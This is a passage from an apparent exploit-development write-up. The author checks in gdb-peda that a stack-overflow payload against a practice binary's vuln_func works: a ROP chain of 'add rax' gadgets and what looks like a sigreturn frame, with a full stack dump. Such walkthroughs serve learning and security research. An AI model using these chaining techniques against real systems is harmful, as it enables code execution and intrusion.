 I think it worked! Let us run it through gdb and make sure the exploit works. The following is just before ```vuln_func```'s ```ret``` instruction gets executed.

```
[-------------------------------------code-------------------------------------]
   0x400bc7 <vuln_func+90>:	call   0x40f6c0 <printf>
   0x400bcc <vuln_func+95>:	nop
   0x400bcd <vuln_func+96>:	leave  
=> 0x400bce <vuln_func+97>:	ret    
   0x400bcf <main>:	push   rbp
   0x400bd0 <main+1>:	mov    rbp,rsp
   0x400bd3 <main+4>:	mov    eax,0x0
   0x400bd8 <main+9>:	call   0x400b6d <vuln_func>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffd938 --> 0x4440c0 (<__strchr_sse2_no_bsf+128>:	xor    rax,rax)
0008| 0x7fffffffd940 --> 0x474320 (<__wcslen_sse2+512>:	add    rax,0x1)
0016| 0x7fffffffd948 --> 0x474320 (<__wcslen_sse2+512>:	add    rax,0x1)
0024| 0x7fffffffd950 --> 0x474320 (<__wcslen_sse2+512>:	add    rax,0x1)
0032| 0x7fffffffd958 --> 0x474320 (<__wcslen_sse2+512>:	add    rax,0x1)
0040| 0x7fffffffd960 --> 0x474320 (<__wcslen_sse2+512>:	add    rax,0x1)
0048| 0x7fffffffd968 --> 0x474320 (<__wcslen_sse2+512>:	add    rax,0x1)
0056| 0x7fffffffd970 --> 0x474320 (<__wcslen_sse2+512>:	add    rax,0x1)
[------------------------------------------------------------------------------]
```

Note that the entire payload is 504 bytes long. It has junk of 120 bytes. This means the actual working payload should be (504-120) = 384 bytes. Let us dump those bytes.

```
gdb-peda$ x/48x $rsp
0x7fffffffd938:	0x00000000004440c0	0x0000000000474320
0x7fffffffd948:	0x0000000000474320	0x0000000000474320
0x7fffffffd958:	0x0000000000474320	0x0000000000474320
0x7fffffffd968:	0x0000000000474320	0x0000000000474320
0x7fffffffd978:	0x0000000000474320	0x0000000000474320
0x7fffffffd988:	0x0000000000474320	0x0000000000474320
0x7fffffffd998:	0x0000000000474320	0x0000000000474320
0x7fffffffd9a8:	0x0000000000474320	0x0000000000474320
0x7fffffffd9b8:	0x000000000040125c	0x0000000000000007
0x7fffffffd9c8:	0x0000000000000000	0x0000000000000000
0x7fffffffd9d8:	0x0000ffff00000000	0x0000000000000000
0x7fffffffd9e8:	0xdeadbeefdeadbeef	0xdeadbeefdeadbeef
0x7fffffffd9f8:	0xdeadbeefdeadbeef	0xdeadbeefdeadbeef
0x7fffffffda08:	0xdeadbeefdeadbeef	0xdeadbeefdeadbeef
0x7fffffffda18:	0xdeadbeefdeadbeef	0xdeadbeefdeadbeef
0x7fffffffda28:	0x0000000000000001	0xdeadbeefdeadbeef
0x7fffffffda38:	0xdeadbeefdeadbeef	0xdeadbeefdeadbeef
0x7fffffffda48:	0xdeadbeefdeadbeef	0x000000000000003c
0x7fffffffda58:	0xdeadbeefdeadbeef	0xdeadbeefdeadbeef
0x7fffffffda68:	0x000000000040125c	0x0000000000000202
0x7fffffffda78:	0x002b000000000033	0x0000000000000000
0x7fffffffda88:	0x0000000000000001	0x0000000000000000
0x7fffffffda98:	0x0000000000000000	0x0000000000000000
0x7fffffffdaa8:	0x000000000000000e	0x0000000000000000
```
